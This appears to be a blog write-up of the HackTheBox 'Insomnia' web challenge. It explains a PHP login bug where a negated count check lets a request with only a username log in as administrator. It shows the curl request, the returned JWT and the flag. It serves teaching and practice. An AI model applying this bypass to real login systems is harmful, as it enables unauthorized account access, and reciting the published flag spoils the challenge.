 ```yaml
---
title: "[HTB] Insomnia Writeup \U0001F4A4"
cover: >-
    https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/help-you-at-solving-hackthebox-htb-challenges-machines.png
categories:
    - [HackTheBox]
    - [CTF]
tags:
    - HTB
    - Web
    - HackTheBox
abbrlink: cab519b8
date: 2024-07-16 17:49:39
---
```


# 0x00 Challeng Info

It's a web challenge, so it gives us a website and the source code for us to analyze. Let's see the description first.

> Welcome back to Insomnia Factory, where you might have to work under the enchanting glow of the moon, crafting dreams and weaving sleepless tales.

Well, although it's not helpful, it's still a romantic setting for this challenge (you know, programmers & hackers always work at night).

# 0x01 Analyze

Since it gave us the source code, we should check it out first. The most important thing is under the **controller directory** (`Insomnia/web_insomnia/Insomnia/app/Controllers`), because it's where the backend interact with users.

I check out the `ProfileController.php`, and find something interesting.

```php
if ($username == "administrator") {
    return view("ProfilePage", [
        "username" => $username,
        "content" => $flag,
    ]);
} else {
    $content = "Haven't seen you for a while";
    return view("ProfilePage", [
        "username" => $username,
        "content" => $content,
    ]);
}
```

So if we can login as **administrator**, then we can get the flag. Now the question is how we are able to do that. To know how, we should then find the answer in the login function, which is in `UserController.php`.

After analyzing the code, we can found that there's an logic error in the code that the developer doesn't notice it. In the `login()` function, the developer use `if (!count($json_data) == 2)` to check if the login data we passed has 2 arguments. But if we think it carefully, we can know that it's different to `if (count($json_data) !== 2)`. Here's are the differences.

1. `if (!count($json_data) == 2)`
    - First, it calculate `count($json_data)`, and it's an INT.
    - Then, the "!" negates the result we get. So if `count($json_data)` does not equals to 0, the expression will get a **false**. Anyways, it will get a **BOOL** as it's data type.
    - Finally, it checks whether the **BOOL** is equivalent to an **INT**, so the expression will always be a **false**, in other words, **the program will never go into this if statement**.
2. `if (count($json_data) !== 2)`
    - It calculate the `count($json_data)` and properly compare the number with 2.
    - So this is the correct way to check if the data count is legal.

The next thing you should know is everytime we sign in, the system will give us a token to verify our identitys. The following is the complete code of `ProfileController.php`

```php
<?php

namespace App\Controllers;

use App\Controllers\BaseController;
use CodeIgniter\HTTP\ResponseInterface;
use Config\Paths;
use Firebase\JWT\JWT;
use Firebase\JWT\Key;

class ProfileController extends BaseController
{
    public function index()
    {
        $token = (string) $_COOKIE["token"] ?? null;
        $flag = file_get_contents(APPPATH . "/../flag.txt");
        if (isset($token)) {
            $key = (string) getenv("JWT_SECRET");
            $jwt_decode = JWT::decode($token, new Key($key, "HS256"));
            $username = $jwt_decode->username;
            if ($username == "administrator") {
                return view("ProfilePage", [
                    "username" => $username,
                    "content" => $flag,
                ]);
            } else {
                $content = "Haven't seen you for a while";
                return view("ProfilePage", [
                    "username" => $username,
                    "content" => $content,
                ]);
            }
        }
    }
}
```

So the final step is to sign in as administrator and copy the token we get. Let's hack the planet!

# 0x02 Exploit

To sign in, I tried to use the browser to send the request first. But it won't work since the key "password" is still assigned a value of null string just like below. That way, we can't sign in due to the wrong password.

![Password is assigned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240716214725811.png)

To bypass this, I use **curl** to help me to send the request. The payload is the URL and the data, which is the username.

```bash
curl http://94.237.51.8:32663/index.php/login --data-raw '{"username": "administrator"}'
```

And the terminal will shows the response, then we can copy the token just like this.

```bash
{"message":"Login Succesful","token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MjExMjMwODEsImV4cCI6MTcyMTE1OTA4MSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.fMLAS55mm69_aqQWEhehVlspjCvpfHJzOp4vy91Zjv8"}
```

The final step is going to `/index.php/profile` and paste the token we just got (by using the devtool to modify the token cookie). After refreshing the page, we can get the flag!

![Pwned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240716215517124.png)

# 0x03 Pwned

```txt
HTB{I_just_want_to_sleep_a_little_bit!!!!!}
```
